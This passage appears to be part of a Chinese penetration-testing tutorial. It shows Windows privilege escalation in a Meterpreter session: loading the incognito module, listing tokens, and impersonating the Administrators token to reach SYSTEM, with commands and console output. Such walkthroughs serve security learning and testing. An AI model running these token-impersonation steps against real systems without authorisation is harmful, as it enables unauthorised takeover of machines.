 ```shell
SeSystemtimePrivilege
SeTakeOwnershipPrivilege
SeTimeZonePrivilege
SeUndockPrivilege
```

然后准备提权，加载incognito，该模块是meterpreter中的一个模块，用来模拟用户token。

使用`list_tokens -g`查看token：

```SHELL
meterpreter > load incognito
Loading extension incognito...Success.
meterpreter > list_tokens -g
[-] Warning: Not currently running as SYSTEM, not all tokens will be available
             Call rev2self if primary process token is SYSTEM

Delegation Tokens Available
========================================
\
BUILTIN\Administrators						--> 存在administrator的token
BUILTIN\Users
NT AUTHORITY\Authenticated Users
NT AUTHORITY\NTLM Authentication
NT AUTHORITY\SERVICE
NT AUTHORITY\This Organization
NT SERVICE\AudioEndpointBuilder
NT SERVICE\CertPropSvc
NT SERVICE\CscService
NT SERVICE\iphlpsvc
NT SERVICE\LanmanServer
NT SERVICE\PcaSvc
NT SERVICE\Schedule
NT SERVICE\SENS
NT SERVICE\SessionEnv
NT SERVICE\TrkWks
NT SERVICE\UmRdpService
NT SERVICE\UxSms
NT SERVICE\Winmgmt
NT SERVICE\wuauserv

Impersonation Tokens Available
========================================
No tokens available
```

使用命令`impersonate_token "BUILTIN\Administrators" `来获取administrator的token：

```SHELL
meterpreter > impersonate_token "BUILTIN\Administrators"
[-] Warning: Not currently running as SYSTEM, not all tokens will be available
             Call rev2self if primary process token is SYSTEM
[+] Delegation token available
[+] Successfully impersonated user NT AUTHORITY\SYSTEM
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```
